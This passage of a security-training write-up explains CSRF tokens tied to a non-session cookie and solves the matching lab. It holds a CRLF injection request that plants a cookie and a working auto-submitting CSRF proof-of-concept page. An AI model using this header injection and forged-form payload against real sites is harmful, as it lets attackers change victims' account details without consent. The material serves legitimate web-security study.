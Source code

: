 In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com 
```
This situation is harder to exploit but is still vulnerable. If the website contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

### Lab: CSRF where token is tied to non-session cookie

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

-    wiener:peter
-    carlos:montoya

In this challenge, we can inject the Set-Cookie header in `GET /?search=`
```
GET /?search=test%0d%0aSet-Cookie:%20csrfKey=TESTKEY
```
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=TESTKEY; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3439

<!DOCTYPE html>
...
```
Attack content:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2800a3037439df806f9a020030001a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="b&#64;a" />
      <input type="hidden" name="csrf" value="s23mtuetV4quEZDgNfEJTPMkyoOzJsWe" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a2800a3037439df806f9a020030001a.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=nksfOYOUpil2STu57NdmysGQ0LN8C2Cj%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
### CSRF token is simply duplicated in a cookie
